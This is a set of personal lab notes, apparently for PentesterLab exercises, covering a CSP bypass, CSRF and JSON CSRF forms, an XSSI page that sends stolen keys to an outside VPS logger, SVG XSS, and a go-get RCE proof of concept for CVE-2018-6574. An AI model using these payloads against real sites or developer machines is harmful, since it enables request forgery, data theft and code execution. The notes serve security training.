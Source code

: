 ## Orange Badge

### Intro to CSP 

- https://hackerone.com/reports/153666
- `<script>alert('2fdb31a2-ca58-4650-abfb-9406be061d69')</script>` doesn't work due to CSP
- `Content-Security-Policy: default-src 'self'; script-src 'self' https://pentesterlab.com`
- But there is an XSS in `js/countdown.php?end=2534926825*1000).getTime();alert(1);//`
- So we can use `/?name=<script src="js/countdown.php?end=2534926825*1000).getTime();alert(1);//"></script>`

### CSRF

- Create users and see if any sensitive actions can be performed without tokens.
- Create a malicious page and upload it to your vps `http://18.191.42.249/csrf.html`

```
<!DOCTYPE html>
<html>
<body>
    <form method="post" action="http://ptl-55544eb5-9632baab.libcurl.so/share">
        <input name="user" value="asdf">
        <input name="id" value="0">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

```
Name	Value
PTLAB_KEY	57bea68a-1090-4329-8b94-37d4d3bb453a
```

### JSON CSRF

- The JSON request body looks like this `{"user":"asdf","id":0}`
- When we send stuff through forms they appear as `k1=v1&k2=v2`
- To fix this put everything in name.
- But everything still gets URL encoded, use `enctype="text/plain"`
- Be aware of quotes used. I tried using `'` which gave me an error, while `"` worked.

```
<html>

<body onload="document.forms[0].submit();">
<form enctype="text/plain"
      method="POST"
      action="http://ptl-2d63cb87-4d590bd7.libcurl.so/share">
<input name='{"user":"asdf","id":0,"trash":"' value='"}'>
</form>

</body>
</html>
```

```
Name	Value
PTLAB_KEY	d800b2b5-8625-4c05-a11a-9719c007b554
```

### XSSI
- This exercise covers the exploitation of a Cross-Site Scripting Include (XSSI) vulnerability.
- This type of vulnerability is common with modern applications and applications relying massively on JSON with Padding (JSONP).
- For difference between XSSI, CSRF and XSS look into https://www.scip.ch/en/?labs.20160414

xssi.html
```
<!DOCTYPE html>
<html>
<body>

<script>
function display(data) {
	var str = '';
	for (var key in data) {
		str += '<img src="http://18.191.42.249/log.php?c='+key+':'+data[key] + '">';
	}
	document.write(str);
}
</script>

<script src="http://ptl-a878d4de-fa8ca92a.libcurl.so/secrets.js"></script>
</body>
</html>
```

log.php
```
<?php

$myfile = fopen('logs.txt', 'a') or die('Unable to open file!');
$txt = $_GET['c'];
$myfile = file_put_contents('logs.txt', $txt.PHP_EOL , FILE_APPEND | LOCK_EX);
```

```
$ >logs.txt
$ cat logs.txt 
PTLAB_KEY:7d570b4a-4a01-4430-88db-2f7907382269
```

### SVG XSS

Upload HTML file and change extension through proxy

```
<html>
    <script>
        alert('2fdb31a2-ca58-4650-abfb-9406be061d69')
    </script>
</html>
```

### CVE-2018-6574: go get RCE

- This vulnerability was fixed in Go 1.8.7, 1.9.4 and 1.10rc2.
- When installing a package, Golang will build native extensions.

attack.c
```
#include<stdio.h>
#include<stdlib.h>

static void malicious() __attribute__((constructor));

void malicious() {
    system("touch /tmp/owned");
}
```

```
$ gcc -shared -o attack.so -fPIC attack.c
```

```
package main
// #cgo CFLAGS: -fplugin=./attack.so
// typedef int (\*intFunc) ();
//
// int
// bridge_int_func(intFunc f)
// {
//      return f();
// }
//
// int fortytwo()
// {
//      return 42;
// }
import "C"
import "fmt"

func main() {
    f := C.intFunc(C.fortytwo)
    fmt.Println(int(C.bridge_int_func(f)))
    // Output: 42
}
```

Put all three files in a GitHub repository and `go get github.com/abhaynayar/cve-2018-6574`



